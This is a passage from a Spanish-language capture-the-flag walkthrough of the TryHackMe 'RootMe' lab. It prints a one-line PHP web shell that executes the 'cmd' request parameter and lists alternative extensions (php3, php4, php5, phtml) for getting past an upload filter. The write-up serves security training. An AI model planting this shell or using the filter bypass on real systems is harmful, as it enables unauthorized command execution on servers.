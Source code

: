 ![""](/assets/images/thm-rootme/rootme4.png)

Ahora tratemos de subir un archivo php que nos permita la ejecución de comando a nivel de sistema:

```bash
❯ catn k4mishell.php
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"
?>
```

![""](/assets/images/thm-rootme/rootme5.png)

Nos manda un error al tratar de subir el archivo php, por lo que podriamos tratar otras extensiones que nos permita acceder:

- php3
- php4
- php5
- phtml
